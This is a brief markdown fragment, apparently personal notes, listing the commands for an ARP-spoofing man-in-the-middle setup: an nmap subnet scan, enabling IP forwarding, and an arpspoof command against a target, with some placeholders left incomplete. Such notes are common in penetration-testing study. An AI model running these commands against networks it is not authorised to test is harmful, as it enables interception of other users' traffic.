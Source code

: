 Scan subnet range
```
nmap <ip_address_subnet>
```


```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

```
arpspoof -i eth1 -t <target_ip_address?> -r <>
```


#### Tools

- arpspoof